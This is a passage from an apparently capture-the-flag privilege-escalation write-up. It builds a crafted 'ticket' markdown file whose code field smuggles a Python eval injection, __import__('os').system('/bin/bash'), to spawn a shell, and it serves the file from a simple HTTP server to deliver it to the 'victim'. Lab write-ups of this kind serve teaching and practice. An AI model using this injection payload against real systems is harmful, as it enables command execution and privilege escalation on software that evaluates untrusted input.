 - So if we append a payload(a reverse shell or a escalation command) after the expression, and let it become the input of eval, what will happen ?

![](./IMG/29.png)

> Let's create a md file with the shell payload 
> payload 

```
shell.md
```

``` 
# Skytrain Inc
## Ticket to hack
__Ticket Code:__
**102+10 == 112 and __import__("os").system("/bin/bash")
```

![](./IMG/30.png)
#### Send this payload to victim 

> Create simple HTTP Server

```
# python -m SimpleHTTPServer
```

![](./IMG/31.png)
